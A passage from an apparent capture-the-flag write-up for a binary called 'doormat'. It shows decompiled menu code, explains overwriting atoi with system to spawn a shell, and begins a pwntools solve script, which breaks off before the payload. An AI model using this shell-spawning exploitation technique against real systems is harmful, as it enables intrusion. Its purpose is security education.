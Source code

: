   canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("-----------");
  puts("1. View house");
  puts("2. Leave letter");
  puts("3. Leave");
  printf("> ");
  fgets(buf,0x20,_stdin);
  option = atoi(buf);
  if (option == 2) {
    leave_letter();
  }
  else if (option == 3) {
    leave();
  }
  else if (option == 1) {
    view_house();
  }
  else {
    puts("Invalid choice");
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
{% endccb %}

if we overwrite `atoi` to `system`, instead of `atoi('/bin/sh')`, we get `system('/bin/sh')` and we get shell.

{% ccb lang:py caption:solve.py gutter1:1-54 %}
from pwn import *

context.binary = elf = ELF('./doormat')
version = 'libc-2.27.so'
context.log_level = 'debug'
library_path = libcdb.download_libraries(version)
if library_path:
    elf = context.binary = ELF.patch_custom_libraries(elf.path, library_path)
    libc = elf.libc
else:
    libc = ELF(version)

# p = process([elf.path])
gdbscript = 'break *(menu+122)'
p = gdb.debug([elf.path], gdbscript=gdbscript)
# p = remote('beta.hackac.live',8001)

def viewHouse(index):
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b'Index:', str(index).encode())
